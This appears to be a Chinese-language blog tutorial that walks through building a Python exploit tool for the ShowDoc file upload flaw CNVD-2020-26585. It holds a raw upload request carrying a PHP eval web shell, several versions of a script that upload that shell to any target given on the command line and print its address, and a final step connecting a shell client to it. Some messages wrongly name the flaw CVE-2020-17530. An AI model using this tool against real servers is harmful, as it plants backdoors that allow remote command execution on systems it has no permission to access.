 # 前言

之前的文章基本上都是一些相对来说都是验证类的或者说是一些代码执行类的，相对来说都不是太复杂，而这篇会涉及到文件上传的案例，很多类似于代码执行这些，在编写的时候主要需要注意的就是执行完后，返回来的结果如何展现出来。

还有误报的情况，关于出现误报，多数都是在返回的内容上判断没有做到唯一性，例如：`phpinfo`，可能不单单有漏洞在返回中有这个单词，还有可能正常情况下返回值也有这个单词，那不就出现误报了么？

# 文件上传案例

这里我们拿的是`showdoc 文件上传 （cnvd-2020-26585）`漏洞来做测试，至于漏洞的复现自行去了解，这里不做复现过程。

参考：[showdoc 文件上传 （CNVD-2020-26585）复现 - 代码天地 (codetd.com)](https://www.codetd.com/article/13363142)

## Burp抓包

这里我们看一下`Burp`抓包显示的内容，这里如何将内容导出来，之前也说过了这里也不再赘述。

`Burp中POC`:

```python
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: vulfocus.fofa.so:57700 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Content-Length: 265

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php echo '123_test';@eval($_POST[cmd])?>
----------------------------921378126371623762173617--
```

![image-20240513115632704](assets/image-20240513115632704.png)

## 基础代码实践

这里的代码基础实现，相当于木马已经上传上去了，但是我们需要的是返回木马地址，不然为什么要去做文件上传的EXP呢？同时关于代码我也不做解释，类似headers、data，甚至post请求都是Burp帮你生成的，剩下的代码也不复杂。

```python
import requests

burp0_url = "http://123.58.224.8:25235/index.php?s=/home/page/uploadImg"
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)",
                 "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "close",
                 "Content-Type": "multipart/form-data; boundary=--------------------------921378126371623762173617"}
burp0_data = ("----------------------------921378126371623762173617\r\nContent-Disposition: form-data; "
              "name=\"editormd-image-file\"; filename=\"test.<>php\"\r\nContent-Type: text/plain\r\n\r\n<?php echo "
              "'123_test';@eval($_POST[cmd])?>\r\n----------------------------921378126371623762173617--")
r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
print(r.text)
if "http:" in r.text and "Public" in r.text:
    print(f"[+]存在CVE-2020-17530远程命令执行漏洞")
else:
    print(f"[-]不存在CVE-2020-17530远程命令执行漏洞")
```

![image-20240513115947645](assets/image-20240513115947645.png)

这里也能看出来，返回了一条带有URL地址的返回内容，但是这个地址我们还需要手动修改比较麻烦，那么有没有什么办法解决了？

### 优化代码

这里就是加入了`json()`解析，将内容解析成好理解的方式，但是根据不通的返回内容，可能需要做其他的一些操作，才能够实现，而这里相对来说简单一点。

```python
import requests

burp0_url = "http://123.58.224.8:25235/index.php?s=/home/page/uploadImg"
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)",
                 "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "close",
                 "Content-Type": "multipart/form-data; boundary=--------------------------921378126371623762173617"}
burp0_data = ("----------------------------921378126371623762173617\r\nContent-Disposition: form-data; "
              "name=\"editormd-image-file\"; filename=\"test.<>php\"\r\nContent-Type: text/plain\r\n\r\n<?php echo "
              "'123_test';@eval($_POST[cmd])?>\r\n----------------------------921378126371623762173617--")
r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
print(r.text)
if "http:" in r.text and "Public" in r.text:
    json = r.json()  ## 解析JSON响应
    file_url = json['url'] ## 提取并格式化URL
    print(file_url)  ##可删除，测试使用
    formatted_url = file_url.replace("\\/", "/") ## 如果需要，将反斜杠替换为斜杠
    print(f"[+]存在CVE-2020-17530远程命令执行漏洞,上传的文件url为:{formatted_url}")
else:
    print(f"[-]不存在CVE-2020-17530远程命令执行漏洞")
```

![image-20240513120545349](assets/image-20240513120545349.png)

## 整体代码

这里的整体代码就是添加上相关的一些选项，以及一些输入输出，而这个并非是最好的代码，例如没对用户输入的内容进行二次格式化或者控制输入的内容，或者说添加一些代理池、线程池等等~~

这些就靠自己添加吧。

```python
import argparse
import requests
import sys


def exp(url, port):
    payload = "/index.php?s=/home/page/uploadImg"
    url1 = f"{url}:{port}{payload}"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)",
               "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "close",
               "Content-Type": "multipart/form-data; boundary=--------------------------921378126371623762173617"}
    data = ("----------------------------921378126371623762173617\r\nContent-Disposition: form-data; "
            "name=\"editormd-image-file\"; filename=\"test.<>php\"\r\nContent-Type: text/plain\r\n\r\n<?php echo "
            "'123_test';@eval($_POST[cmd])?>\r\n----------------------------921378126371623762173617--")
    try:
        r = requests.post(url1, headers=headers, data=data, verify=False, timeout=5, allow_redirects=False)
        if "http:" in r.text and "Public" in r.text:
            json = r.json()
            file_url = json['url']
            formatted_url = file_url.replace("\\/", "/")
            print(f"[+]{url}存在showdoc文件上传 CNVD-2020-26585 漏洞")
            print(f"木马访问地址:{formatted_url}")
        else:
            print(f"[-]{url}不存在showdoc文件上传 CNVD-2020-26585 漏洞")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)


def main():
    banner = """
 ## ### # # ##      ### ### ### ###     ### ### ### ### ### 
#   # # # # # #       # # #   # # #       # #   #   # # #   
#   # # # # # # ### ### # # ### # # ### ### ### ### ### ### 
#   # # # # # #     #   # # #   # #     #   # #   # # #   # 
 ## # #  #  ##      ### ### ### ###     ### ### ### ### ###
    """
    print(banner)
    print("Vulnerability version: 2.8.3 以下版本")
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", dest="url", required=True, type=str, default=None, help="Vulnerability IP")
    parser.add_argument("-p", dest="port", required=False, type=int, default=80,
                        help="The default vulnerability port is 80")
    args = parser.parse_args()
    exp(args.url, args.port)


if __name__ == '__main__':
    main()

```

![image-20240513121139428](assets/image-20240513121139428.png)

### 木马测试

链接参数：

![image-20240513121428796](assets/image-20240513121428796.png)

输入相关的链接参数后，就可以使用添加链接了，可以看到是成功链接上来了。

![image-20240513121346160](assets/image-20240513121346160.png)